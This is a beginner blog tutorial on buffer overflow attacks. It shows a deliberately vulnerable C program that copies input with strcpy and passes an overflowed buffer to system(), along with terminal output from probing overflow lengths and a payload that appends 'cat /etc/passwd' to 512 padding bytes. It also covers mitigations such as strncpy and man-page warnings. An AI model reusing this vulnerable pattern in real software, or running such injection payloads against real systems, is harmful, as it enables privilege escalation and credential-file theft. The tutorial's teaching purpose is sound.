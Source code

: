 ```yaml
---
layout: post
title: "Buffer Overflow Attack"
title_id: "Buffer Overflow Attack: Beginner level"
description: "Introduction to buffer overflow attack"
category: [technology, old_blog]
tags: [security, bufferoverflow, attack, system, strcpy]
---
```


It has been very long since I have written something for the blog now,
especially for the last post which I had mentioned that I would come back with
a second part for it. Coming straight to the point, we have it here. :)

Just a recap of what we have talked about before on buffer over flow attacks: Any
attack that exploits the point that the copying of a string to a buffer is not
checked for size(string length) limit can be included in the Buffer Overflow attack
category.

At first we will look at a simple demonstration for the buffer overflow attack.
For this we should have a vulnerable program written. Without loss of
generality we can use the below program for demonstration and if required
further study because as the program size increases, just the complexity to
find the limit for buffer overflowing increases, mostly all other factors
remains same.

{% highlight c %}

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
    char cmd[10];
    char buf[500];

    strcpy(buf, argv[1]);
    printf("\n%s   [[[[[%s]]]]]]\n", buf, cmd);
    system(cmd);

    return 0;
}

{% endhighlight %}

What this program does:

Simply copies the first command line arguement to a character
variable buf of size 500. At a later stage, the command list stored in the
variable cmd is executed using the in-built function system.

Vulnarability:

The length of the command line arguement is not compared(checked) with
the size of the destination variable - buf. The part of the input that
overflows the buf array and gets overwritten into the cmd varible which
in-turn gets executed automatically using the system function.
If the final executable is a set-uid program, then the running
process can automatically inherit the the permissions of the owner
program. Say if the owner was root, the attacker gets superuser
power.

What can be done:

Use strncpy instead of strcpy. Strncpy helps us to specify the lenght
of sting that is to be copied to the final destination. On the other
hand the default lenght for stcpy would the maximum string length.
(Reffer MAN pages for strcpy and strncpy)

Below given is the input and output for various lengths of inputs(different
lengths for the string AAAA...AAA):

{% highlight bash %}

BufferOverFlow||22:41$ ./simple `python2.7 -c 'print "A" * 510'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
[[[[[p�k�]]]]]]
sh: $'p\205k\206\377\177': command not found


BufferOverFlow||22:42$ ./simple `python2.7 -c 'print "A" * 511'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
[[[[[@�y$]]]]]]
sh: @�y$: command not found

BufferOverFlow||22:41$ ./simple `python2.7 -c 'print "A" * 512'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
[[[[[]]]]]]

BufferOverFlow||22:42$ ./simple `python2.7 -c 'print "A" * 513'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
[[[[[A]]]]]]
sh: A: command not found

BufferOverFlow||22:41$ ./simple `python2.7 -c 'print "A" * 515'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   
[[[[[AAA]]]]]]
sh: AAA: command not found

{% endhighlight %}

This shows us that (for the above given program) when the input size becomes
larger than or equal to 513(remember that the buffer length was 500charactors),
the second variable, cmd starts to get overwritten by the excess or in our case
the overflowed charactors from the input.
Therefore a conclusion can be made that if the input string can be formatted in
such a way that a valid bash command can be appended to the last of 512 random
charactors, that will get executed .i.e., `python2.7 -c 'print "A" * 512 + "<required command>"'`

If the input was `python2.7 -c 'print "A" * 512 + "cat /etc/passwd"'`, the
attacker would be able to read the passwd file from the vulnarable machine.

NOTE:

> If space is to be used outside double or single quotes while giving input
> to the above program, remember to escape it using a backslash in the begining.

This attack can be extended easily:
The statement terminating symol for bash script is a semi colon. So, therefor,
by using a semi colon at the end of each statement to make a small script to be
given as the input, could prove to be more dangerous.


IMPORTANT:

> "Do not use system() from a program with set-user-ID or set-group-ID privileges,
> because strange values for some environment variables might be used to subvert
> system integrity. Use the exec(3) family of functions instead, but not execlp(3)
> or execvp(3).  system() will not, in fact, work properly from programs with
> set-user-ID or set-group-ID privileges on systems on which /bin/sh is bash version 2,
> since bash 2 drops privileges on startup.  (Debian uses a modified bash which does
> not do this when invoked as sh.)." - Linux MAN Pages(SYSTEM(3))

> "If the destination string of a strcpy() is not large enough, then anything might
> happen. Overflowing fixed-length string buffers is a favorite cracker technique for
> taking complete control of the machine. Any time a program reads or copies data into a
> buffer, the program first needs to check that there's enough space. This may be unnecessary
> if  you  can  show that overflow is impossible, but be careful: programs can get changed
> over time, in ways that may make the impossible possible." - Linux MAN Pages(STRCPY(3))


Most programs written in C would have some parts of it using a strcpy function
call. A BOF attack can be designed to exploit this vulnarable function. In the
next level we would remove the system function call and inject the code through
the input(instead of the command list for system function call)which would get
executed in the stack.
